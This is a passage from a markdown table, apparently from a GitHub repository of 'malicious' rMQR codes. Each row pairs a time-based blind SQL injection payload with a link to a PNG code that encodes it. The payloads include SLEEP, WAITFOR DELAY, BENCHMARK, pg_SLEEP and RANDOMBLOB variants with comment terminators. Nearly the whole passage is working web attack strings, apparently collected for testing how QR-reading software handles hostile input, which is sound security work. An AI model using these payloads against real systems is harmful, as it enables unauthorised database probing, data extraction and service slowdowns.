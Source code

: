 | `or SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/261.png) |
| `or SLEEP(5)="` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/262.png) |
| `or SLEEP(5)='` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/263.png) |
| `waitfor delay '00:00:05'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/264.png) |
| `waitfor delay '00:00:05'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/265.png) |
| `waitfor delay '00:00:05'#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/266.png) |
| `benchmark(50000000,MD5(1))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/267.png) |
| `benchmark(50000000,MD5(1))--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/268.png) |
| `benchmark(50000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/269.png) |
| `or benchmark(50000000,MD5(1))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/270.png) |
| `or benchmark(50000000,MD5(1))--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/271.png) |
| `or benchmark(50000000,MD5(1))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/272.png) |
| `pg_SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/273.png) |
| `pg_SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/274.png) |
| `pg_SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/275.png) |
| `or pg_SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/276.png) |
| `or pg_SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/277.png) |
| `or pg_SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/278.png) |
| `'\"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/279.png) |
| `AnD SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/280.png) |
| `AnD SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/281.png) |
| `AnD SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/282.png) |
| `&&SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/283.png) |
| `&&SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/284.png) |
| `&&SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/285.png) |
| `' AnD SLEEP(5) ANd '1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/286.png) |
| `'&&SLEEP(5)&&'1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/287.png) |
| `ORDER BY SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/288.png) |
| `ORDER BY SLEEP(5)--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/289.png) |
| `ORDER BY SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/290.png) |
| `+benchmark(3200,SHA1(1))+'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/294.png) |
| `+ SLEEP(10) + '` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/295.png) |
| `RANDOMBLOB(500000000/2)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/296.png) |
| `AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/297.png) |
| `OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/298.png) |
| `RANDOMBLOB(1000000000/2)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/299.png) |
| `AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/300.png) |